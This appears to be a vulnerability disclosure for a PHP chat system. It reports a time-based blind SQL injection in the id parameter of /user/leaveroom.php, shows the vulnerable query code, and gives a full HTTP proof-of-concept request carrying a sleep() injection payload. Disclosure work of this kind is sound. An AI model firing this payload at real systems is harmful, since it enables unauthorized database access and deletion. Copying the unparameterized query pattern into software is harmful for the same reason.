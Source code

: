 # Chat System Using PHP has sql injection in /user/leaveroom.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/leaveroom.php



## describe


The id parameter is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('session.php');
	if (isset($_POST['leave'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from chat_member where userid='".$_SESSION['id']."' and chatroomid='$id'");
		
		//remove room if no more member
		$r=mysqli_query($conn,"select * from chat_member where chatroomid='$id'");
		if (mysqli_num_rows($r)<1){
			mysqli_query($conn,"delete from chatroom where chatroomid='$id'");
		}
		
	}

?>
```

Inserting $_POST['id'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /user/leaveroom.php HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 26
Cache-Control: max-age=0
Cookie: PHPSESSID=37s949bl7lo8mj992ts8np9vio
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:8081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8081/user/modal.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

leave=1&id=4' or sleep(5)#
```



Send this request, you can observe an additional 30-second (5 * 3 * 2) time delay triggered by the time-based injection.


